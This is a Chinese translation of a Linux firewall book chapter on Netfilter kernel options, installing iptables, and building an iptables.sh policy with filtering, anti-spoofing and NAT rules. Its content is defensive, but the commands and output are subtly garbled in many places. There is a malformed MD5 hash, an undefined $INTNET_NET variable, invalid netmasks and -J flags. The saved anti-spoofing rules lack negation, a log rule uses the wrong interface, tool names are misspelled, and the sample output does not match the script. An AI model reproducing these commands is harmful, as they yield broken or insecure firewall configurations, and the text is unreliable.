在 Network Packet Filtering Framework (Netfilter) 部分中，还有两个额外的配置部分——Core Netfilter Configuration 和 IP: Netfilter Configuration。

### Core Netfilter Configuration

Core Netfilter Configuration 部分包含几个都应该启用的重要选项：

- Comment match support（注释匹配支持）
- FTP support（FTP 支持）
- Length match support（长度匹配支持）
- Limit match support（限制匹配支持）
- MAC address match support（MAC 地址匹配支持）
- MARK target support（MARK 目标支持）
- Netfilter connection tracking support（Netfilter 连接跟踪支持）
- Netfilter LOG over NFNETLINK interface（通过 NFNETLINK 接口的 Netfilter 日志）
- Netfilter netlink interface（Netfilter netlink 接口）
- Netfilter Xtables support（Netfilter Xtables 支持）
- State match support（状态匹配支持）
- String match support（字符串匹配支持）

### IP: Netfilter Configuration

完成 Core Netfilter Configuration 部分后，我们将进入 IP: Netfilter Configuration 部分。该部分应启用的选项如下：

- ECN target support（ECN 目标支持）
- Full NAT（全 NAT）
- IP address range match support（IP 地址范围匹配支持）
- IP tables support (required for filtering/masq/NAT)（IP tables 支持，过滤/伪装/NAT 所必需）
- IPv4 connection tracking support (required for NAT)（IPv4 连接跟踪支持，NAT 所必需）
- LOG target support（LOG 目标支持）
- MASQUERADE target support（MASQUERADE 目标支持）
- Owner match support（所有者匹配支持）
- Packet filtering（包过滤）
- Packet mangling（包修改）
- raw table support (required for NOTRACK/TRACE)（raw 表支持，NOTRACK/TRACE 所必需）
- Recent match support（近期匹配支持）
- REJECT target support（REJECT 目标支持）
- TOS match support（TOS 匹配支持）
- TOS target support（TOS 目标支持）
- TTL match support（TTL 匹配支持）
- TTL target support（TTL 目标支持）
- ULOG target support（ULOG 目标支持）

## 完成内核配置

通过 `menuconfig` 界面为 2.6.20.1 内核配置好所需的 Netfilter 支持后，通过选择 **Exit** 直到看到消息 *Do you wish to save your new kernel configuration?* 来保存内核配置文件。回答 **Yes**。

保存新的内核配置后，你将返回到命令 shell，可以通过以下命令检查生成的 Netfilter 编译选项。

## 注意

这些命令的输出太长，无法全部列在此处，但大多数 Netfilter 选项（例如 `CONFIG_IP_NF_NAT` 和 `CONFIG_NETFILTER_XT_MATCH_STRING`）通常包含子字符串 `_NF_` 或子字符串 `NETFILTER`。

```
$ grep "_NF_" .config
$ grep NETFILTER .config
```

## 可加载内核模块 vs. 内置编译与安全性

在前一节中启用的多数 Netfilter 子系统既可以编译为可加载内核模块（Loadable Kernel Module, LKM）——可以在运行时动态地加载到内核中或从内核中卸载；也可以直接编译进内核，在这种情况下，它们无法在运行时进行加载或卸载。在上述配置部分中，我们选择将大多数 Netfilter 子系统编译为 LKM。

将功能编译为 LKM 与直接编译进内核之间存在安全权衡。一方面，任何编译为 LKM 的特性都可以通过 `rmmod` 命令从运行中的内核中移除。如果模块中发现了安全漏洞，这将提供一个优势，因为在某些情况下，仅通过卸载模块即可缓解该漏洞。此外，如果内核源码中已经修复了该漏洞，可以在不完全关闭系统的情况下重新编译并重新部署模块：修复漏洞将实现零停机时间。

## 注意

内核中的 Netfilter 子系统并非完全免疫偶尔出现的安全漏洞。例如，在 Netfilter 日志记录子系统处理 TCP 选项的代码中曾发现过一个漏洞（参见 [http://www.netfilter.org/security/2004-06-30-2.6-tcpoption.html](http://www.netfilter.org/security/2004-06-30-2.6-tcpoption.html)）。如果日志子系统被编译为模块，可以通过卸载该模块来牺牲 iptables 创建日志消息的能力，从而保护内核，这似乎是一个不错的权衡。

另一方面，如果在实现某项功能的代码中发现了漏洞且该代码被直接编译进内核，那么修复该漏洞的唯一方法是应用补丁、重新编译，然后将整个系统重启进入新的（已修复的）内核。对于关键任务系统（如公司 DNS 服务器），在能够安排停机窗口之前，这可能并不可行，而在此期间，系统可能会面临内核级攻破的风险。

## ROOTKIT 威胁

然而，故事并未就此结束。编译支持可加载模块的内核开启了一种阴险的可能性：如果攻击者成功攻破系统，内核中具有模块支持会让攻击者更容易安装内核级 rootkit。一旦内核本身被攻破，各种恶意行为都可以在系统上实施。

攻破内核本身代表了所有攻破行为中的“皇冠上的明珠”；像 Tripwire 这样的文件系统完整性检查工具可以被欺骗，进程可以被隐藏，网络连接可以被屏蔽，使其不被 `netstat` 和 `lsof` 等工具（甚至本地执行的数据包嗅探器）察觉。然而，简单地编译一个不支持模块的内核并不是一个万无一失的解决方案，因为并非所有内核级 rootkit 都要求宿主内核提供模块支持。例如，SucKIT rootkit 可以通过 `/dev/kmem` 字符设备直接操作内核内存，从而将自身加载到运行中的内核中。SucKIT rootkit 是在 *Phrack* 杂志的文章 "Linux on-the-fly kernel patching without LKM" 中向安全社区介绍的（参见 [http://www.phrack.org](http://www.phrack.org)）。

加载和卸载模块的能力提供了极具吸引力的灵活性，因此这是我在这里选择的策略。在做出自己的选择时，请务必考虑这些权衡。

> *字符设备*（character device）是内核的一个接口，它可以像字节流一样被访问，而不是像块设备那样仅通过离散的块大小访问。字符设备的示例包括 `/dev/` 控制台和串行端口设备文件，如 `/dev/ttyS0`。

## 安全性与最小化编译

无论你选择哪种编译 Netfilter 子系统的策略 —— 是作为 LKM 还是直接编译进内核 —— 计算机安全中的一个核心事实是：复杂性滋生不安全性；系统越复杂，就越难以保证安全。幸运的是，iptables 具有高度的可配置性，不仅体现在用于描述如何处理和过滤网络流量的运行时规则语言方面，还体现在由内核编译选项控制的受支持功能类别方面。

为了降低在内核中运行的代码复杂度，请不要编译你不需要的功能。从运行中的内核中移除不必要的代码，有助于将隐藏在代码中且尚未被发现的漏洞风险降至最低。

例如，如果你不需要日志支持，只需在 `menuconfig` 界面中不要启用 Log Target Support 选项。如果你不需要对 FTP 连接进行状态跟踪，请保持 FTP Protocol Support 选项禁用。如果你不需要能够针对以太网标头中的 MAC 地址编写过滤规则，请禁用 MAC Address Match Support 选项。

仅编译那些为满足本地网络和/或主机的网络与安全需求而绝对必需的功能。

## 内核编译与安装

现在我们的内核已经配置完成，我们将进入编译和安装阶段。如前所述，我们假设所有其他必要的内核选项（如处理器架构）都已经选好，以正确支持新内核将运行的硬件。

要在 `/boot` 分区中编译并安装新的 2.6.20.1 内核，请执行以下命令：

```bash
$ make
$ su -
Password:
# mount /boot
# cd /usr/src/linux-2.6.20.1
# make install && make modules_install
```

上述命令成功执行后，意味着需要配置引导加载程序（bootloader），并最终启动进入新的 2.6.20.1 内核。假设你使用的是 GRUB 引导加载程序，且根分区的挂载点为 `/dev/hda2`，请使用你喜欢的编辑器将以下行添加到 `/boot/grub/grub.conf` 文件中：

```text
title linux-2.6.20.1
root (hd0,0)
kernel /boot/vmlinuz-2.6.20.1 root=/dev/hda2
```

现在，重启！

```bash
# shutdown -r now
```

## 安装 iptables 用户态二进制文件

在安装并启动进入一个已编译 Netfilter 钩子的内核之后，我们现在将安装最新版本的 iptables 用户态程序。为此，首先在 `/usr/local/src` 目录中下载并解压最新的 iptables 源码，然后根据 [http://www.netfilter.org](http://www.netfilter.org) 上发布的数值检查 MD5 校验和：

```bash
$ cd /usr/local/src/
$ wget http://www.netfilter.org/projects/iptables/files/iptables-1.3.7.tar.bz2
$ md5sum 1.3.7.tar.bz2
dd965b4dc8abbf6e246984829fddda4eb7  iptables-1.3.7.tar.bz2
$ tar xjf iptables-1.3.7.tar.bz2
$ cd iptables-1.3.7/
```

关于 iptables 二进制文件的编译和安装步骤，回想一下我们在 `/usr/src/linux-2.6.20.1` 目录中编译了内核；编译 iptables 需要访问内核源码，因为它需要针对内核源码树中如 `include/linux/netfilter_ipv4` 等目录下的 C 头文件进行编译。我们将使用 `/usr/src/linux-2.6.20.1` 目录在命令行中定义 `KERNEL_DIR` 变量，而 `BINDIR` 和 `LIBDIR` 变量允许我们控制 iptables 二进制文件和库的安装路径。你可以按照以下方式编译和安装 iptables：

```bash
$ make KERNEL_DIR=/usr/src/linux-2.6.20.1 BINDIR=/sbin LIBDIR=/lib
# su -
# Password:
# cd /usr/local/src/iptables-1.3.7
# make install KERNEL_DIR=/usr/src/linux-2.6.20.1 BINDIR=/sbin LIBDIR=/lib
```

为了最终证明我们已经安装了 iptables 并且它可以与运行中的 2.6.20.1 内核进行交互，我们将执行命令来显示 iptables 版本号，然后指示它列出 INPUT、OUTPUT 和 FORWARD 链中的当前规则集（此时这些链中没有任何活动规则）：

```bash
# which iptables
/sbin/iptables
# iptables -V
iptables v1.3.7
# iptables -L
Chain INPUT (policy ACCEPT)
target prot opt source destination

Chain FORWARD (policy ACCEPT)
target prot opt source destination

Chain OUTPUT (policy ACCEPT)
target prot opt source destination
```

## 注意

大多数 Linux 发行版已经安装了 iptables，所以你可能不需要去通过上述安装过程。然而，为了确保你的系统已为本书的讨论做好准备，安装最新版本的 iptables 是一个不错的主意。正如你在第 9 章中将看到的，字符串匹配能力对于运行 fwsnort 至关重要，因此如果你的内核尚未支持此功能，你可能需要升级内核（请参阅第 14 页的“内核配置”）。

> 你还应该使用 GnuPG 制作的数字签名与 `http://www.netfilter.org` 上发布的数值进行比对。这需要导入 Netfilter GnuPG 公钥，并针对签名文件运行 `gpg --verify` 命令。psad 项目中该过程的详细步骤可以在第 5 章中找到，类似的步骤同样适用于 `iptables-1.3.7` 压缩包。

## 默认 iptables 策略

现在我们已经拥有了一个安装了 iptables 且能够正常运行的 Linux 系统。本章的剩余部分将集中在 iptables 防火墙的各种管理和运行时的方面。

我们将首先构建一个 Bourne shell 脚本（`iptables.sh`），以实现一个为具有永久互联网连接的中型网络量身定制的 iptables 过滤策略。该策略将贯穿本书的其余部分，并作为一个通用基础——我们将在随后的几个章节中多次引用此策略。你也可以从 `http://www.cipherdyne.org/linuxfirewalls` 下载 `iptables.sh` 脚本。但首先，这里有一些关于 iptables 的背景信息。

### 策略要求

让我们定义一个针对由几台客户端机器和两台服务器组成的网络的有效防火墙配置要求。服务器（一台 Web 服务器和一台 DNS 服务器）必须能够从外部网络访问。内部网络中的系统应被允许通过防火墙向外部服务器发起以下类型的流量：

- 域名系统 (DNS) 查询
- 文件传输协议 (FTP) 传输
- 网络时间协议 (NTP) 查询
- 安全外壳 (SSH) 会话
- 简单邮件传输协议 (SMTP) 会话
- 基于 HTTP/HTTPS 的 Web 会话
- whois 查询

除了访问上述列出的服务外，所有其他流量都应被拦截。从内部网络或直接从防火墙发起的会话应由 iptables 进行状态跟踪（不符合有效状态的数据包应尽早记录并丢弃），并且还应提供 NAT 服务。

此外，防火墙还应实施控制，防止来自内部网络并被转发到任何外部 IP 地址的欺骗数据包：

- 防火墙本身必须能够从内部网络通过 SSH 访问，但除非运行 `rwnfkop` 进行身份验证（在第 13 章中涵盖），否则不能从其他任何地方访问；SSH 应该是防火墙上运行的唯一服务器进程。


- 防火墙应接受来自内部和外部网络的 ICMP Echo Request（回显请求），但来自任何源 IP 地址且非 Echo Request 的非请求 ICMP 数据包应被丢弃。
- 最后，防火墙应配置为默认的 `log and drop`（记录并丢弃）姿态，以便任何未被明确允许通过的杂散数据包、端口扫描或其他连接尝试都能被记录并丢弃。

## 注意

我们假设防火墙上的外部 IP 地址由 ISP 静态分配，但动态分配的 IP 地址同样可行，因为我们在防火墙上是通过接口名称而非 IP 地址来限制外部网络数据包的。

为了简化构建 `iptables` 策略的任务，假设存在一个单一的内部网络，其不可路由的网络地址为 `192.168.10.0/24`，C 类子网掩码为 `255.255.255.0`（或 CIDR 表示法中的 `/24`）。

防火墙上的内部网络接口（见图 1-2）是 `eth1`，IP 地址为 `192.168.10.1`，该地址范围内的所有主机都将此地址作为其默认网关。这使得内部系统能够将所有目的地不在 `192.168.10.0/24` 子网内的数据包通过防火墙路由出去。防火墙上的外部接口是 `eth0`，为了保持网络无关性，我们将外部 IP 地址 `71.157.X.X` 分配给该接口。



图 1-2. 默认网络图

图中表示了两个恶意系统：一个在内部网络（`192.168.10.200`，主机名为 `int_scanner`），另一个在外部网络（`144.202.X.X`，主机名为 `ext_scanner`）。图 1-2 中的网络图在此处作为参考，我们将在后面的章节中再次引用。除非另有说明，书中的所有流量示例均参考图 1-2 中的网络图，并且你会看到该图中的主机名被用于执行命令的 shell 提示符中，以便清晰地知道哪个系统在产生或接收流量。

## `iptables.sh` 脚本前导部分

在开始编写 `iptables.sh` 脚本时，定义三个变量是非常有用的：`IPTABLES` 和 `MODPROBE`（用于 `iptables` 和 `modprobe` 二进制文件的路径）以及 `INT_NET`（用于内部子网地址和掩码），这些变量将在整个脚本中使用（见下文 ❶）。在 ❷ 处，运行中的内核中所有现有的 `iptables` 规则将被删除，并且 `INPUT`、`OUTPUT` 和 `FORWARD` 链的过滤策略被设置为 `DROP`。同时，使用 `modprobe` 命令加载连接跟踪模块。

```bash
[iptablesfw]# cat iptables.sh
#!/bin/sh
# ❶ IPTABLES=/sbin/iptables
MODPROBE=/sbin/modprobe
INT_NET=192.168.10.0/24

### flush existing rules and set chain policy setting to DROP
echo "❷ Flushing existing iptables rules..."
$IPTABLES -F
$IPTABLES -t nat -F
$IPTABLES -X
$IPTABLES -P INPUT DROP
$IPTABLES -P OUTPUT DROP
$IPTABLES -P FORWARD DROP
### load connection-tracking modules
$MODPROBE ip_conntrack
$MODPROBE ip_table_nat
$MODPROBE ip_conntrack_ftp
$MODPROBE ip_nat_ftp
```

## `INPUT` 链

`INPUT` 链是 `iptables` 的一个结构，它决定了目的地为本地系统的数据包（即在内核进行路由计算结果指定该数据包目的地为本地 IP 地址后）是否可以与本地套接字通信。如果 `INPUT` 链中的第一条规则指示 `iptables` 丢弃所有数据包（或者 `INPUT` 链的策略设置被设为 `DROP`），那么所有尝试通过任何 IP 通信（如 TCP、UDP 或 ICMP）与系统直接通信的尝试都将失败。地址解析协议（ARP）也是以太网中无处不在的一类重要流量。然而，因为 ARP 工作在数据链路层而非网络层，`iptables` 无法过滤此类流量，因为它仅过滤 IP 流量及其上层协议。

因此，无论 `iptables` 策略如何，ARP 请求和响应都会被发送和接收。（可以使用 `arptables` 来过滤 ARP 流量，但对此话题的讨论超出了本书的范围，因为我们通常专注于网络层及以上。）

## 注意

`iptables` 可以基于数据链路层 MAC 地址过滤 IP 数据包，但前提是内核在编译时启用了 MAC 地址扩展。在 2.4 内核系列中，MAC 地址扩展必须手动启用，而在 2.6 内核系列中，它默认启用。

继续开发 `iptables` shell 脚本，在前导部分之后，我们使用以下命令来设置 `INPUT` 链。

```bash
###### INPUT chain ######
echo "[+] Setting up INPUT chain..."

### state tracking rules
① $IPTABLES -A INPUT -m state --state INVALID -j LOG --log-prefix "DROP INVALID" --log-ip-options --log-tcp-options
② $IPTABLES -A INPUT -m state --state INVALID -j DROP
③ $IPTABLES -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

### anti-spoofing rules
④ $IPTABLES -A INPUT -i eth1 -s ! ${INT_NET} -j LOG --log-prefix "SPOOFED PKT"
⑤ $IPTABLES -A INPUT -i eth1 -s ! ${INT_NET} -j DROP

### ACCEPT rules
⑥ $IPTABLES -A INPUT -i eth1 -p tcp -s ${INT_NET} --dport 22 --syn -m state --state NEW -j ACCEPT
⑦ $IPTABLES -A INPUT -p icmp --icmp-type echo-request -j ACCEPT

### default INPUT LOG rule
⑧ $IPTABLES -A INPUT -i ! lo -j LOG --log-prefix "DROP" --log-ip-options --log-tcp-options
```

回顾我们的防火墙策略要求，它强制要求 `iptables` 对连接进行状态跟踪；不匹配有效状态的数据包应被尽早记录并丢弃。这通过上述从 ① 开始的三条 `iptables` 命令来实现；你会在 `OUTPUT` 和 `FORWARD` 链中看到类似的三条命令组合。这些规则 each 都使用了状态机制，以及 `INVALID`、`ESTABLISHED` 或 `RELATED` 的标准。`INVALID` 状态适用于无法识别为属于任何现有连接的数据包——例如，一个凭空出现（即不属于任何 TCP 会话）的 TCP FIN 数据包将匹配 `INVALID` 状态。`ESTABLISHED` 状态仅在 Netfilter 连接跟踪子系统看到双向数据包之后才会触发（例如，在正在交换数据的 TCP 连接中的确认包）。`RELATED` 状态描述了在 Netfilter 连接跟踪子系统中启动新连接[1]的数据包，但该连接与现有连接相关联——例如，在向没有服务器绑定的 UDP 套接字发送数据包后返回的 ICMP Port Unreachable（端口不可达）消息。

接下来，在 ④ 处添加了反欺骗规则，因此源自内部网络的数据包必须具有 `192.168.10.0/24` 子网内的源地址。⑥ 处有两条 `ACCEPT` 规则，分别用于来自内部网络的 SSH 连接，以及接受来自任何源的 ICMP Echo Request。接受 SSH 连接的规则使用了状态匹配（状态为 `NEW`）以及 `iptables` 的 `--syn` 命令行参数。这仅匹配 FIN、RST 和 ACK 标志位为 0 且 SYN 标志位为 1 的 TCP 数据包，并且仅在匹配到 `NEW` 状态时才成立（这意味着就连接跟踪子系统而言，该数据包正在启动一个新连接）。

最后，⑧ 处是默认的 Log 规则。[1] 回想脚本前导部分，数据包那些未被 `INPUT` 链中某些规则接受的数据包将被该链分配的 `DROP` 策略丢弃；这也适用于 `OUTPUT` 和 `FORWARD` 链。如您所见，`INPUT` 链的配置极其简单，因为我们只需要接受来自内部网络到 SSH 守护进程的传入连接请求，为本地生成的网络流量启用状态跟踪，最后记录并丢弃不需要的数据包（包括来自内部网络的欺骗数据包）。如下所示，类似的配置也适用于 `OUTPUT` 和 `FORWARD` 链。

## `OUTPUT` 链

`OUTPUT` 链允许 `iptables` 对本地系统生成网络数据包实施内核级控制。例如，如果本地用户启动了一个到外部系统的 SSH 会话，`OUTPUT` 链可用于允许或拒绝该出站 SYN 数据包。

用于构建 `OUTPUT` 链规则集的 `iptables.sh` 脚本中的命令如下所示：

```bash
##### OUTPUT chain #####
echo "[#] Setting up OUTPUT chain..."
### state tracking rules
$IPTABLES -A OUTPUT -m state --state INVALID -j LOG --log-prefix "DROP INVALID " --log-ip-options --log-tcp-options
$IPTABLES -A OUTPUT -m state --state INVALID -j DROP
$IPTABLES -A OUTPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

### ACCEPT rules for allowing connections out
$IPTABLES -A OUTPUT -p tcp --dport 21 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A OUTPUT -p tcp --dport 22 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A OUTPUT -p tcp --dport 25 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A OUTPUT -p tcp --dport 53 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A OUTPUT -p tcp --dport 80 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A OUTPUT -p tcp --dport 443 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A OUTPUT -p tcp --dport 110 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A OUTPUT -p udp --dport 53 -m state --state NEW -j ACCEPT
$IPTABLES -A OUTPUT -p icmp --icmp-type echo-request -j ACCEPT

### default OUTPUT LOG rule
$IPTABLES -A OUTPUT -o ! lo -j LOG --log-prefix " DROP " --log-ip-options --log-tcp-options
```

根据我们的策略要求，我们将假设从防火墙本身发起的连接将用于通过 FTP、HTTP 或 HTTPS 下载补丁或软件；启动出站 SSH 和 SMTP 连接；或向其他系统发出 DNS 查询或其他查询。

## `FORWARD` 链

到目前为止，我们添加到 `iptables` 过滤策略中的规则严格管理着数据包与防火墙系统直接交互的能力。此类数据包要么是以操作系统内部的 OS 守护进程为目的地，要么是由其发出的，包括来自内部系统到 SSH 守护进程的连接请求，或为了下载安全补丁而由本地发起的到外部站点的连接。

现在让我们看看与那些源地址或目的地址均不与防火墙相关，但仍试图通过防火墙系统路由的数据包相关的 `iptables` 规则。`filter` 表中的 `iptables FORWARD` 链提供了对跨防火墙接口转发的数据包实施访问控制的能力：

```bash
######## FORWARD chain #######
echo "[+] Setting up FORWARD chain..."
### state tracking rules
$IPTABLES -A FORWARD -m state --state INVALID -j LOG --log-prefix "DROP INVALID" --log-ip-options --log-tcp-options
$IPTABLES -A FORWARD -m state --state INVALID -j DROP
$IPTABLES -A FORWARD -m state --state ESTABLISHED,RELATED -j ACCEPT

### anti-spoofing rules
$IPTABLES -A FORWARD -i eth1 -s ! $INTNET_NET -j LOG --log-prefix "SPOOFED PKT"
$IPTABLES -A FORWARD -i eth1 -s ! $INTNET_NET -j DROP

### ACCEPT rules
$IPTABLES -A FORWARD -p tcp -i eth1 -s $INT_NET --dport 21 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A FORWARD -p tcp -i eth1 -s $INT_NET --dport 22 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A FORWARD -p tcp -i eth1 -s $INTNET_NET --dport 25 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A FORWARD -p tcp -i eth1 -s $INT_NET --dport 43 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A FORWARD -p tcp --dport 80 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A FORWARD -p tcp --dport 443 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A FORWARD -p tcp -i eth1 -s $INT_NET --dport 4321 --syn -m state --state NEW -j ACCEPT
$IPTABLES -A FORWARD -p udp --dport 53 -m state --state NEW -j ACCEPT
$IPTABLES -A FORWARD -p icmp --icmp-type echo-request -j ACCEPT

### default log rule
$IPTABLES -A FORWARD -i lo -j LOG --log-prefix "DROP" --log-ip-options --log-tcp-options
```

与 `OUTPUT` 链的规则类似，允许通过防火墙发起 FTP、SSH、SMTP 和其他 websockets 连接，但此类连接必须源自面向子网接口（`eth1`）上的内部子网。允许任何来源的 HTTP、HTTPS 和 DNS 流量通过，因为我们需要允许外部地址与内部 Web 和 DNS 服务器交互（在经过 NAT 之后；请参阅下一节“网络地址转换”）。

## 网络地址转换

构建 `iptables` 策略的最后一步是启用将不可路由的 `192.168.10.0/24` 内部地址转换为可路由的外部 `71.157.X.X` 地址的转换。这适用于从外部客户端到 Web 和 DNS 服务器的传入连接，也适用于从内部网络系统发起的出站连接。对于从内部系统发起的连接，我们将使用源 NAT（`SNAT`）目标；对于从外部系统发起的连接，我们将使用目的 NAT（`DNAT`）目标。

`iptables` 的 `nat` 表专门用于所有 NAT 规则，该表中包含两个链：`PREROUTING` 和 `POSTROUTING`。`PREROUTING` 链用于将 `nat` 表中的规则应用于尚未经过内核路由算法（用于确定应在哪个接口上传输）的数据包。在此链中处理的数据包也尚未与 `filter` 表中的 `INPUT` 或 `FORWARD` 链进行比对。

`POSTROUTING` 链负责处理已经经过内核路由算法，并即将通过计算出的物理接口传输的数据包。由该链处理的数据包已经通过了 `filter` 表中 `OUTPUT` 或 `FORWARD` 链的要求（以及可能注册的其他表，如 `mangle` 表所规定的要求）。

## 注意

关于 `iptables` 如何实现 NAT 的完整解释，请参阅 <http://www.netfilter.org/documentation/howto/nat-how-to.html>。


### NAT 规则

```bash
###### NAT rules ######
echo "[+] Setting up NAT rules..."
$IPTABLES -t nat -A PREROUTING -p tcp --dport 80 -i eth0 -j DNAT --to 192.168.10.3:80
$IPTABLES -t nat -A PREROUTING -p tcp --dport 443 -i eth0 -j DNAT --to 192.168.10.3:443
$IPTABLES -t nat -A PREROUTING -p tcp --dport 53 -i eth0 -j DNAT --to 192.168.10.4:53
$IPTABLES -t nat -A POSTROUTING -s $INT_NET -o eth0 -j MASQUERADE
```

参考图 1-2 中的网络图，内部网络中 Web 和 DNS 服务器的 IP 地址分别为 192.168.10.3 和 192.168.10.4。提供 NAT 功能所需的 iptables 命令如上所示（注意 `-t` 选项用于将命令限制在 `nat` 表中）。三条 PREROUTING 规则允许来自外部网络的 Web 服务和 DNS 请求被发送到相应的内部服务器。最后一条 POSTROUTING 规则允许源自内部不可路由网络且目的地为外部互联网的连接看起来像是来自 IP 地址 71.157.X.X。

构建 iptables 策略的最后一步是在 Linux 内核中启用 IP 转发：

```bash
###### forwarding ######
echo "[+] Enabling IP forwarding..."
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 激活策略

iptables 非常出色的一点在于，通过执行 iptables 命令，在内核中实例化策略变得异常简单——这里没有重量级的用户界面、二进制文件格式或臃肿的管理协议（就像某些其他安全产品专有供应商开发的那样）。现在我们已经有一个记录了 iptables 命令的 shell 脚本（再次提醒，您可以从 `http://www.cypherdyne.org/linuxfirewalls` 下载完整脚本），让我们执行它：

```
[iptablesfw]# ./iptables.sh
[+] Flushing existing iptables rules...
[+] Setting up INPUT chain...
[+] Setting up OUTPUT chain...
[+] Setting up FORWARD chain...
[+] Setting up Mangle rules...
[+] Enabling IP forwarding...
```

### iptables-save 和 iptables-restore

在 `iptables.sh` 脚本中，之前所有的选项都是逐条执行的，以便实例化新规则、设置链的默认策略或删除旧规则。每条命令都需要单独执行一次 iptables 用户态二进制文件来创建 iptables 策略。因此，这并不是在系统启动时快速加载策略的最佳方案，尤其是当 iptables 规则增加到数百条时（正如我们在第 10 章将看到的，使用 fwonsort 构建的策略可能会出现这种情况）。

`iptables-save` 和 `iptables-restore` 命令提供了一种快得多的机制，它们安装在与主 iptables 程序相同的目录中（在我们的案例中是 `/sbin`）。`iptables-save` 命令会创建一个文件，以人类可读的格式包含运行策略中的所有 iptables 规则。这种格式可以被 `iptables-restore` 程序解析，该程序会读取 `ipt.save` 文件中列出的每条规则并将其在运行中的内核中实例化。只需一次执行 `iptables-restore` 程序即可在内核中重建整个 iptables 策略，而无需多次执行 iptables 程序。这使得 `iptables-save` 和 `iptables-restore` 命令成为快速部署 iptables 规则集的理想选择，我用以下两条命令来演示这个过程：

```
[iptablesfw]# iptables-save > /root/ipt.save
[iptablesfw]# cat /root/ipt.save | iptables-restore
```

`ipt.save` 文件的内容按 iptables 表（tables）组织，而在每个专门用于单个表的章节内部，`ipt.save` 进一步按 iptables 链（chain）组织。以星号 (`*`) 字符开头且后跟表名（如 filter）的行，表示 `ipt.save` 文件中描述特定表的章节开始。随后的行则跟踪与该表相关联的每个链的数据包和字节计数。

`ipt.save` 文件的下一部分是对所有按链组织的 iptables 规则的完整描述。这些行允许 `iptables-restore` 重建实际的 iptables 规则集，如果 `iptables-save` 使用了 `-c` 选项，其中还包括每条规则的数据包和字节计数。

最后，一行独立的注释标志着 `ipt.save` 文件中定义 iptables 表的章节结束。该行构成了与该表相关的所有信息的结束标记。下面是一个完整示例，展示了在执行了本章到目前为止的所有 iptables 命令后，filter 表章节的样子：

```
# Generated by iptables-save v1.3.7 on Sat Apr 14 17:35:35:22 2007
*filter
:INPUT DROP [0:0]
:FORWARD DROP [0:0]
:OUTPUT DROP [0:0]
-A INPUT -m state --state INVALID -J DROP --log-prefix " DROP INVALID "
-A INPUT -m tcp --syn -m state --state INVALID -J DROP
-A INPUT -m state --state INVALID -J DROP
-A INPUT -m state --state RELATED,ESTABLISHED -J ACCEPT
-A INPUT -s 192.168.10.0/255.255.255.0 -i eth1 -J LOG --log-prefix "SPOOFED PKT "
-A INPUT -s 192.168.10.0/255.255.255.0 -i eth1 -J DROP
-A INPUT -s 192.168.10.0/255.255.0 -i eth1 -p tcp -m tcp --dport 22 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -J ACCEPT
-A INPUT -p icmp -m icmp --icmp-type 8 -J ACCEPT
-A INPUT -i lo -J LOG --log-prefix " DROP " --log-tcp-options --log-ip-options
-A FORWARD -m state --state INVALID -J LOG --log-prefix "DROP INVALID "
-A FORWARD -m state --state INVALID -J DROP
-A FORWARD -m state --state RELATED,ESTABLISHED -J ACCEPT
-A FORWARD -s 192.168.10.0/255.255.255.0 -i eth1 -J LOG --log-prefix "SPOOFED PKT "
-A FORWARD -s 192.168.10.0/255.255.0 -i eth1 -J DROP
-A FORWARD -s 192.168.10.0/255.255.0 -i eth1 -p tcp -m tcp --dport 21 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -J ACCEPT
-A FORWARD -s 192.168.10.0/255.255.0 -i eth1 -p tcp -m tcp --dport 22 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -J ACCEPT
-A FORWARD -s 192.168.10.0/255.255.0 -i eth1 -p tcp -m tcp --dport 25 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -J ACCEPT
-A FORWARD -p tcp -m tcp --dport 80 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -J ACCEPT
-A FORWARD -p tcp -m tcp --dport 443 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -J ACCEPT
-A FORWARD -p udp -m udp --dport 53 -m state --state NEW -J ACCEPT
-A FORWARD -p icmp -m icmp --icmp-type 8 -J ACCEPT
-A FORWARD -i lo -J LOG --log-prefix " DROP " --log-tcp-options --log-ip-options
-A OUTPUT -m state --state INVALID -J LOG --log-prefix "DROP INVALID "
-A OUTPUT -m state --state INVALID -J DROP
-A OUTPUT -m state --state RELATED,ESTABLISHED -J ACCEPT
-A OUTPUT -p tcp -m tcp --dport 21 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -J ACCEPT
-A OUTPUT -p tcp -m tcp --dport 22 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -J ACCEPT
-A OUTPUT -p tcp -m tcp --dport 25 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -J ACCEPT
-A OUTPUT -p tcp -m tcp --dport 43 --tcp-flags FIN,SYN,RST,ACK SYN -m state --state NEW -J ACCEPT
